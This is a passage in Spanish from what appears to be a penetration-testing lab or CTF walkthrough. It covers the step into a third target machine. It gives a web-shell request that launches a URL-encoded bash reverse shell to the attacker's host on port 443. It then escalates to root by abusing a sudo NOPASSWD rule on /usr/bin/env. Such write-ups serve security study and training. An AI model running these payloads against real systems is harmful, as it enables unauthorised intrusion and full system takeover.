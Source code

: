 Una ves que estan tunelizadas ya deveriamos de ganar acceso a la maquina victama3 que es el objetivo:
Como ya estamos en escucha desde nuestra maquina atacante desde el puerto 443 solo lanzamos la **revershell** desde la web
```bash
http://30.30.30.3/uploads/cmd.php?cmd=bash%20-c%20%27exec%20bash%20-i%20%26%3E/dev/tcp/30.30.30.2/443%20%3C%261%27
```

Ahora tenemos que escalar privielgios:
```bash
www-data@a22ec6d61c39:/var/www/html/uploads$
```

Si listamos los permisos de este usuario:
```bash
sudo -l
(root) NOPASSWD: /usr/bin/env
```

Se ve asi porque mi tty esta bugueada:
```bash
sudo -u root /usr/bin/env /bin/sh - 
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@a22ec6d61c39:/var/www/html/uploads$
root
```

---